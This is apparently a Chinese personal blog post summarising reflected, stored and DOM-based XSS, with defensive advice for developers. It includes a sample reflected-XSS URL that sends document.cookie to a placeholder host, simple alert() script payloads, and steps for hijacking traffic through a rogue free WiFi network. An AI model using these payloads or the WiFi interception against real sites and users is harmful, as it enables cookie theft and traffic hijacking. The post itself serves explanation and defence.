 ```yaml
---
title: "对于简单的 XSS 攻击的概念梳理"
layout: post
categories: 安全
date: "2019-09-06"
guid: urn:uuid:28b12cf0-4508-45d1-aaa5-8dde60d94eb5
tags:
  - xss
---
```


### 背景
前阵子想了解一些关于XSS攻击的知识，于是在网上翻阅了一些有关XSS的概念，于是我总结了下来，今天清理电脑的时候发现这篇文章，故提交之。

# XSS - Cross-site scripting
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

## Reflected XSS
主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击

例子：
1. 在搜索框搜索内容或者URL直接写入脚本，`<script>alert('handsome boy')</script>`, 点击搜索或者回车。
2. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
3. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```markdown
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
PS：这个地址当然是没效的，只是举例子而已。
```

结论：
如果第3步能做成功，才是个像样的XSS攻击。

开发安全措施：
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽


## Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行

例子：
1. 发一篇文章，里面包含了恶意脚本

```markdown
今天天气不错啊！  
<script>alert('handsome boy')</script>
```

2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

因为大部分文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。

结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

## DOM-based or local XSS
基于DOM或本地的XSS攻击。
一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

例子：
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

https://www.cnblogs.com/index-html/p/wifi_hijack_3.html
